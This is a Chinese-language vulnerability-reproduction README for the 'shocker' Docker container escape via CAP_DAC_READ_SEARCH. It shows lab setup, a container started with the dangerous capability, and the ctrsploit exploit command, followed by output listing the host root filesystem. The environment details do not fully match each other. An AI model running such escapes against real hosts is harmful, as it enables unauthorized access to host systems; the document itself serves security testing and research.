 ```yaml
---

tags: sploit
author: ssst0n3
spec_version: v0.1.0
version: v0.1.0
changelog:
    - v0.1.0: init

---
```


# docker CAP_DAC_READ_SEARCH(shocker) 逃逸

[edit](https://github.com/ctrsploit/sploit-spec/edit/main/vul/shocker/README.md)

## 1. 漏洞介绍

TODO

## 2. 利用场景

利用容器的不安全配置逃逸

## 3. 前提条件

1. 拥有cap_dac_read_search

## 4. 漏洞存在性检查

`ctrsploit checksec shocker`

## 5. 漏洞复现

### 5.1 复现环境

下面以 [ssst0n3/docker_archive:ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11_v0.1.0](https://github.com/ssst0n3/docker_archive/tree/branch_ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11) 作为复现环境。

```
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive
$ git checkout branch_ubuntu-20.04_docker-ce-19.03.15_docker-ce-cli-19.03.15_containerd.io-1.4.3_runc-1.0.0-rc92
$ docker compose -f docker-compose.kvm.yml up -d
$ ssh -p 19315 root@127.0.0.1
root@127.0.0.1's password: root
root@ubuntu:~# docker info
Client:
 Debug Mode: false

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 0
 Server Version: 19.03.15
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Native Overlay Diff: true
 Logging Driver: json-file
 Cgroup Driver: cgroupfs
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local logentries splunk syslog
 Swarm: inactive
 Runtimes: runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 269548fa27e0089a8b8278fc4fc781d7f65a939b
 runc version: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
 init version: fec3683
 Security Options:
  apparmor
  seccomp
   Profile: default
 Kernel Version: 5.4.0-56-generic
 Operating System: Ubuntu 20.04.1 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 2.43GiB
 Name: ubuntu
 ID: 4X4W:QE26:IMGY:UHI5:QPCY:NDI5:KKFJ:YWUO:RNOC:QJKR:OHOQ:TXVR
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Registry: https://index.docker.io/v1/
 Labels:
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false

WARNING: No swap limit support
```

### 5.2 漏洞复现

启动存在不安全配置的容器。

```
root@ubuntu:~# docker run -ti --name poc --cap-add CAP_DAC_READ_SEARCH ubuntu
```

下载 ctrsploit 步骤略，在容器内发起逃逸攻击。

```
root@e33b98bef3c3:/# ctrsploit --colorful checksec shocker
✔  shocker      # Container escape with CAP_DAC_READ_SEARCH, alias shocker, found by Sebastian Krahmer (stealth) in 2014.

root@e33b98bef3c3:/# ./ctrsploit/bin/release/ctrsploit_linux_amd64 exploit shocker
root@8fe1576e6aef:/proc/self/fd/7# ls -lah
ls: cannot access '..': No such file or directory
total 18M
drwxr-xr-x  20 root root 4.0K Mar 25 03:59 .
d?????????   ? ?    ?       ?            ? ..
drwx------   2 root root 4.0K Dec 20 07:38 .cache
lrwxrwxrwx   1 root root    7 Dec 20 07:29 bin -> usr/bin
drwxr-xr-x   4 root root 4.0K Jan 16 07:17 boot
drwxr-xr-x   4 root root 4.0K Dec 20 07:29 dev
drwxr-xr-x 198 root root  12K Jun  7 01:52 etc
drwxr-xr-x   3 root root 4.0K Dec 20 07:41 home
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img -> boot/initrd.img-6.5.0-kali3-amd64
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img.old -> boot/initrd.img-6.5.0-kali3-amd64
...
```
